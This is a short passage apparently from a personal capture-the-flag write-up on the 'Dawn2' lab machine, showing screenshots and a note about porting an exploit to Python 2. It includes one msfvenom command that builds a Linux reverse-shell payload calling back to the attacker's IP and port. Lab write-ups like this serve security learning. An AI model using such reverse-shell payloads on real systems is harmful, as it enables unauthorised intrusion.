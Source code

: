 ![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-windowspoc.gif)

(I had to refactor the exploit into python2 for the msfvenom payload to work - don't ask, I'm not sure either, something something bytes and whitespace I think)

Anyways... let's try it out on our linux target, replacing the SHELL payload with ```msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.70 LPORT=1985 -f py -v SHELL -b "\x00"```

![](https://raw.githubusercontent.com/TrshPnda/trshpnda.github.io/master/images/Dawn2-Failed.png)
